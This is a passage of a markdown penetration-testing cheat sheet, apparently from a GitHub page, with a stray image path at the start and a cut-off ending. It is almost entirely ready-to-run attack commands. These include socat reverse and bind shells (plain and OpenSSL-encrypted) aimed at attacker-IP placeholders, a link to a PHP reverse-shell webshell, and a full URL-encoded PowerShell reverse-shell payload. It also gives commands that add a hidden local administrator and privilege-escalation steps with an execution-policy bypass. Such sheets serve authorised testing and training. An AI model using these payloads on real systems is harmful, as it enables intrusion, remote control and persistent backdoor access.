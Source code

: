     socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
#### Add verbosity
    -d -d (in the command)
### Encrypted shell
#### Generate certificate:
    openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
    cat shell.key shell.crt > shell.pem
#### Listen to the reverse shell:
    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
#### Send encrypted reverse shell from target:
    socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
#### Listen for bind shell:
    socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
#### Send encrypted bind shell from target:
    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
## Webshell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

### URL Encoded Powershell Reverse Shell (command to put in the url as a command for the webshell):
    powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

## Add users on a windows system:
    net user <username> <password> /add
    net localgroup administrators <username> /add

# Priviledge escalation Windows
## Automated tools
WinPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS <br>

    winpeas.exe > outputfile.txt
PrivescCheck: https://github.com/itm4n/PrivescCheck <br>
Bypass execution policy restrictions and launch: <br>

    Set-ExecutionPolicy Bypass -Scope process -Force
    . .\PrivescCheck.ps1
    Invoke-PrivescCheck
WES-NG: Windows Exploit Suggester - Next Generation: https://github.com/bitsadmin/wesng <br>
Great because it executes on the attacker machine and then doesn't need to upload and execute a binary on the target machine. <br>
Before launching:

